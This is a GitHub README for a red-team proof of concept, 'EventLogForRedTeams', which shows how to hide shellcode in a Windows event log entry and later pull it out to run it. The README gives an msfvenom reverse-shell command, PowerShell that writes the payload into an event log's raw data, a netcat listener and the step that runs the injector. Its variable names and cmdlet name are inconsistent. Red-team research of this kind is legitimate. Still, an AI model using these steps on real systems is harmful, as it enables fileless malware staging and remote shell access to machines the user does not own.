

***Unintelligent Code can be found here***

## Blog Post ##
https://www.blackhillsinfosec.com/windows-event-logs-for-red-teams/


EventLogForRedTeams is a proof-of-concept for showing how a malicious payload can be stored in a Windows event log entry and later retrieved for execution. This technique is not original, and was first discussed here: https://threatpost.com/attackers-use-event-logs-to-hide-fileless-malware/179484/ and https://securelist.com/a-new-secret-stash-for-fileless-malware/106393/
 

Powershell Write-EventLog Command
```powershell
# Create variable to contain payload
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex

$msf = '<Insert Shellcode as Hex Literal String'

# Convert Payload variable to hex byte array
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')

# Create new event log entry
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener
```bash
nc -nvlp 1337
```
Execute code injector

```powershell
.\EventLogForRedTeams.exe
```



As of July 13, 2022, execution will be successful however, Microsoft Defender will eventually catch the shellcode running in memory (AMSI) and kill the process. That is not an issue as in the real world as such vanilla payload would not be used operationally. Well hopefully not at least.
